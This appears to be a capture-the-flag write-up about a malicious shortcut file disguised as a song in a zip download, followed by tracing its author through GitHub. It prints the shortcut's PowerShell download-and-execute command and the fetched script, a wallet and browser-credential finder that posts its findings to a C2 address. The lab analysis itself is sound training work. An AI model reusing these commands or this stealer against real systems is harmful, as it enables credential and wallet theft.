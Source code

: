# Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?

## Challenge Objective:
> Learn how to investigate malicious link files.   
> Learn about OPSEC and OPSEC mistakes.   
> Understand how to track and attribute digital identities in cyber investigations.  

## Investigating the Website:
Used the mp3 converter and downloaded the zip file called `download.zip`, Then used `Extract` to open the zip file and found 2 extracted files: `song.mp3` and `somg.mp3`.   
Used the command `file song.mp3` and `file somg.mp3`  
     
**There I found:**
   
```
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-201
```
****Then visiting `https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1` I got:****
```
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server
```
Understanding this code got to know that it is a crypto wallet grabber.

Also found out **`Created by the one and only M.M.`** which helped me find out `https://github.com/search?q=%22Created+by+the+one+and+only+M.M.%22&type=issues`, and gave me the profile of **M.M**.
![image](https://github.com/user-attachments/assets/9209dc23-9767-4155-a82a-a5d7fa14829d)    
Then going into the public repositories helped me find 
![image](https://github.com/user-attachments/assets/632fcf20-28a1-4c25-bfc3-785eac78f977)
Using all of this Information I answered these questions:
![image](https://github.com/user-attachments/assets/78a8e1bd-ec1f-4d53-9ffb-925f2842f650)


